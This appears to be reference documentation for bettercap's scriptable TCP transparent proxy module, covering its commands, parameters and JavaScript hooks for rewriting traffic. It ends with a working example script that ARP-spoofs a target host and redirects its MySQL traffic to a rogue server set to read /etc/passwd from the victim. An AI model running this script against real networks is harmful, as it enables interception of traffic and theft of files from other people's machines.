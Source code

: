 ```yaml
---
title: "tcp.proxy"
date: 2019-02-25T13:18:06+01:00
draft: false
weight: 3
---
```


A TCP transparent proxy that can be scripted using javascript modules. If used together with a [spoofer](/modules/ethernet/spoofers/), all TCP traffic to a given address and port will be redirected to it and it will automatically handle port redirections as needed.

The optional `tcp.tunnel` parameter can be used to redirect the traffic from `tcp.address` to `tcp.tunnel.address`.

### Commands

#### `tcp.proxy on`

Start the TCP proxy.

#### `tcp.proxy off`

Stop the TCP proxy.

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `tcp.port` | `443` | TCP port to redirect when the proxy is activated. |
| `tcp.address` |  | **Mandatory** remote address of the TCP proxy. |
| `tcp.proxy.port` | `8443` | Port to bind the TCP proxy to. |
| `tcp.proxy.address` | `<interface address>` | Address to bind the TCP proxy to. |
| `tcp.proxy.script` | | Path of a proxy module script. |
| `tcp.tunnel.address` | | Address to redirect the TCP tunnel to (optional). |
| `tcp.tunnel.port` | | Port to redirect the TCP tunnel to (optional) |

### Modules

The `tcp.proxy` module can be scripted using javascript files that must declare at least one of the following functions:

```js
// called when the script is loaded
function onLoad() {

}

// called when data is available
// return an array of bytes to override "data"
function onData(from, to, data) {

}
```

Modules can change the `data` buffer and return it, signaling the proxy to override the original buffer.

### Builtin Functions

Modules can use the following builtin functions.

| function | description |
|----------|-------------|
| `readFile("/path/to/file")` | Return the contents of a file as a string. |
| `log("message")` | Log a message in the interactive session (its level will be `INFO`). |
| `env("iface.ipv4")` | Read a variable. |
| `env("foo", "bar")` | Set a variable. |

### Examples

The [rogue-mysql-server.cap](https://github.com/bettercap/caplets/blob/master/rogue-mysql-server.cap) executes an ARP spoofing attack against a single host and redirect the MySQL traffic to a [builtin rogue server](/modules/ethernet/servers/mysql.server/):

```sh
# set the target for arp spoofing
set arp.spoof.targets 192.168.1.236

# bind rogue mysql server to localhost and
# set the file we want to read
set mysql.server.address 127.0.0.1
set mysql.server.port 3306
set mysql.server.infile /etc/passwd
mysql.server on

# set the ip from the mysql server we want to impersonate
set tcp.address 93.184.216.34
set tcp.port 3306

# set the ip from the rogue mysql server
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 3306

# go ^_^
tcp.proxy on
arp.spoof on
```
